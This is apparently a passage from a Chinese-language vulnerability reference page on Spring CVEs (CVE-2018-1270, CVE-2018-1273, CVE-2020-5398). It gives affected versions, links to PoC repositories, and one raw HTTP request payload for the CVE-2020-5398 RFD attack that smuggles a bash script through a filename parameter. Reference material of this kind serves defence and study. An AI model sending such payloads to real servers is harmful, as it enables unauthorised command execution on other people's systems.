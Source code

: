 **影响版本**
- spring_framework < 4.2.9
- spring_framework 4.3.0 ~ 4.3.15
- spring_framework 5.0 ~ 5.0.5

**相关文章**
- [Spring Messaging 远程命令执行漏洞 (CVE-2018-1270) ](https://vulhub.org/#/environments/spring/CVE-2018-1270/)

---

## CVE-2018-1273 Spring Data Commons RCE 远程命令执行漏洞

**描述**

Pivotal Spring Data Commons 和 Spring Data REST 都是美国 Pivotal Software 公司的产品。Pivotal Spring Data Commons 是一个为数据访问提供基于 Spring 模型的项目。Spring Data REST 是一个建立在 Spring Data 存储库之上的用于分析应用程序的域模型并公开超媒体驱动的 HTTP 资源。

Pivotal Spring Data Commons 和 Spring Data REST 中存在安全漏洞。远程攻击者可利用该漏洞执行代码。以下产品和版本受到影响：Spring Data Commons 1.13 版本至 1.13.10 版本，2.0 版本至 2.0.5 版本及一些已不再支持的老版本；Spring Data REST 2.6 版本至 2.6.10 版本，3.0 版本至 3.0.5 版本及一些已不再支持的老版本。

**相关文章**
- [Spring Data Commons 远程命令执行漏洞 (CVE-2018-1273) ](https://vulhub.org/#/environments/spring/CVE-2018-1273/)

**影响版本**
- spring_data_commons < 1.12.10
- spring_data_commons 1.13 ~ 1.13.10
- spring_data_commons 2.0 ~ 2.0.5
- spring_data_rest < 2.5.10
- spring_data_rest 2.6 ~ 2.6.10
- spring_data_rest 3.0 ~ 3.0.5

**POC | Payload | exp**
- [wearearima/poc-cve-2018-1273](https://github.com/wearearima/poc-cve-2018-1273)
- [jas502n/cve-2018-1273](https://github.com/jas502n/cve-2018-1273)

---

## CVE-2020-5398 Spring MVC/Spring WebFlux header 导致的 RFD 攻击

**相关文章**
- [CVE-2020-5398 Spring MVC/Spring WebFlux header导致的RFD攻击风险通告](https://www.anquanke.com/post/id/197418)

**POC | Payload | exp**
```
GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1
Host: 192.168.248.129:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

---